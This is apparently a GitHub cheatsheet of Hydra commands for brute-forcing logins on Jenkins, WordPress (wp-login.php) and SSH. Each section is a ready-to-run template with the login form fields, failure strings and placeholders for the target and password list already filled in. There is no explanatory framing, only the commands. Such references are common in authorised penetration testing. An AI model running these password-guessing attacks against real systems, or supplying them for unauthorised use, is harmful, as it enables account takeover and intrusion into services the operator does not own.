 # hydra-cheatsheet
Hydra cheatsheet for common CMS &amp; Services

## CMS

### Jenkins
```
sudo hydra -l [USERNAME] -P [PASSWORD_FILE] [TARGET] \
-s [PORT] http-post-form \
"/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" \
-V
```
### Wordpress
```
sudo hydra -l [USERNAME] -P [PASSWORD_FILE] [TARGET] \
http-form-post '/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' \
-V
```
## Services
### SSH
```
hydra -s [PORT] -l [USERNAME] -P [PASSWORD_FILE] [TARGET] -t 4 ssh
```
